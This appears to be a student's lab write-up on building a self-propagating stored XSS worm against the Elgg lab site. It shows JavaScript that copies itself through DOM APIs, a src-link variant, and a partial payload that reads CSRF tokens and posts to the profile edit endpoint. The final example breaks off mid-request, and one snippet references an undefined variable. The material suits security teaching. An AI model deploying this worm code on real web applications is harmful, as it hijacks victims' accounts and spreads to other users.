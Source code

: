 
---

## Task 6 : Creating a self propagating worm
- exponential growth
- dynamically generate code


1. **ID/DOM Approach**:
- If the entire JavaScript program (worm) is embedded in the infected profile
- the worm code can use `DOM APIs` to retrieve a copy of itself from the web page.
- This code gets a copy of itself, and display it in an alert window:


```js
// if f the entire JavaScript program (i.e., the worm) is embedded in the infected profile
// to propagate the worm to another profile
// the worm code can use DOM APIs to retrieve a copy of itself from the web page.
<script id="worm" type="text/javascript">
    var badCode = document.getElementById("worm");
    alert(badCode.innerHTML);
</script>

<script id="worm" type="text/javascript">
    var header = "<script id=\"worm\" type=\"text/javascript\" >";

    // innerHTML only gives us the inside part of the code, not including the surrounding script tags.
    var copy = document.getElementById("worm").innerHTML; 
    
    var tail = "</" + "script>";
    var wormCode = encodeURIComponent(header+copy+tail);
    alert(jsCode);
</script>

<script id="worm" type="text/javascript">
    // construct a copy of itself
    var selfProp = "<script id=\"worm\" type=\"text/javascript\" >".concat( document.getElementById("worm").innerHTML ).concat("</").concat("script>");
</script>
```

2. **Src/Link Approach**:
- If the worm is included using the `src` attribute in the `<script>` tag
- can simply copy the `<script>` tag to the victim’s profile, essentially infecting the profile with the same worm.

```js
<script type="text/javascript" src="http网站//example.com/xss_worm.js">
</script>
```

1. example

```js
<script id="worm" type="text/javascript">

var selfProp = "<script id=\"worm\" type=\"text/javascript\" >".concat(document.getElementById("worm").innerHTML).concat("</").concat("script>");

var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var ts=elgg.security.token__elgg_ts;
var token=elgg.security.token.__elgg_token;

ff=new XMLHttpRequest();
ff.open("POST",sendurl,true);
ff.setRequestHeader("Host","www.xsslabelgg.com");
ff.setRequestHeader("Keep-Alive","300");
```